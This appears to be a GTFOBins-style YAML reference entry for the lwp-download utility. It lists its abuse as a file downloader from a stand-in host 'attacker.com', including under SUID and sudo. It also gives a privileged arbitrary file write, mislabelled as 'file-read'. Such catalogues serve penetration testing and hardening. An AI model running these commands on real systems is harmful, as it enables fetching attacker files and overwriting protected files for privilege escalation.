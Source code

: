 ```yaml
---
description: Fetch a remote file via HTTP GET request.
functions:
  file-download:
    - code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        lwp-download $URL $LFILE
  suid:
    - code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        ./lwp-download $URL $LFILE
  sudo:
    - code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        sudo lwp-download $URL $LFILE
  file-read:
    - description: The file path must be absolute.
      code: |
        echo "DATA-TO-WRITE" > /tmp/data
        INPUT=/tmp/data
        LFILE=file_to_write_absolute_path
        lwp-download file://$INPUT $LFILE
---
```

